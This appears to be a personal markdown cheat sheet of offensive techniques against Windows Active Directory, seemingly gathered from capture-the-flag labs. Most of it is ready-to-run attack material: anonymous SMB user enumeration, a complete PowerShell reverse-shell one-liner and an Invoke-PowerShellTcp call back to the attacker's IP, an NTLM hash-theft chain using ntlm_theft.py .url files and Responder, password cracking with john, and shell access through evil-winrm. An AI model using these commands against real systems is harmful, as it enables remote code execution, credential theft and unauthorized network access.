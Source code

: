 **when enumerate smb shares and we have read access to ```IPC$``` share, We will be able to list the domain users as ```anonymous``` using different tools:**

1- ```lookupsid.py anonymous@<target ip>```<br>
#OR<br>
```lookupsid.py <username>@<target ip>``` #if we have valid creds <br>

2- ```crackmapexec smb <target ip> -u 'guest' -p '' --rid-brute```

----------------------------------------------------------------------------------------------------------------------

**if we do not know the domain name we could use ```crackmapexec``` to dump some cool information:**
```
crackmapexec smb <target ip>
                                                                  
SMB         10.10.250.17    445    VULNNET-BC3TCK1  [*] Windows 10.0 Build 17763 x64 (name:VULNNET-BC3TCK1) (domain:vulnnet.local) (signing:True) (SMBv1:False)
```
#OR 
Use ```enum4linux```:
```
enum4linux <target ip>
```
----------------------------------------------------------------------------------------------------------------------

**Powershell reverse shell**

1.
```
$client = New-Object System.Net.Sockets.TCPClient('<OUR ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
2. The ```Invoke-PowerShellTcp.ps1``` script is typically a reverse shell script written in PowerShell
```
Invoke-PowerShellTcp -Reverse -IPAddress  <your ip> -Port 1234
```

----------------------------------------------------------------------------------------------------------------------

transitive object control in bloodhound
---

In BloodHound, "transitive object control" refers to an attack path where an attacker gains indirect control over a sensitive object (such as a user, group, or computer) by exploiting multiple relationships or permissions in Active Directory. This often results from a chain of misconfigurations where control over one object enables control over another, eventually leading to higher privileges, such as Domain Admin.<br>
Transitive control **occurs** when an attacker doesn’t have direct control over a target object but can use their control over another object to eventually gain access to the target.
For example:

    Attacker controls UserA.
    UserA has control over GroupB.
    GroupB contains a privileged user, like a Domain Admin.
    The attacker can then leverage control over UserA to modify GroupB and escalate privileges

----------------------------------------------------------------------------------------------------------------------


If we know there is activity in the share, we can try dropping a file to the share that will **force the user to authenticate to our server** when a user browses the share.


Using ```ntlm_theft.py``` to create a malicious ```.url``` file.
	
```
$ python3 ntlm_theft.py -g url -s 10.11.63.57 -f test
Created: test/test-(url).url (BROWSE TO FOLDER)
Created: test/test-(icon).url (BROWSE TO FOLDER)
Generation Complete.
```
Running responder to spin up a server that will respond to the authentication requests made.
	
```
$ sudo responder -I tun0
```
Uploading the generated file to the vuln share.
	
```
smb: \> cd onboarding\
smb: \onboarding\> put "test-(icon).url"
putting file test-(icon).url as \onboarding\test-(icon).url (0.4 kb/s) (average 0.3 kb/s)
```
After some time we get the hash.
<br>
Then we could use john to crack the hash.
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  
```

**Using ```evil-winrm``` to get a shell**

Using the credentials we have, we can use ```evil-winrm``` to get a shell.
	
```
$ evil-winrm -i <domain name> -u '<user we got>' -p 'his password'
```





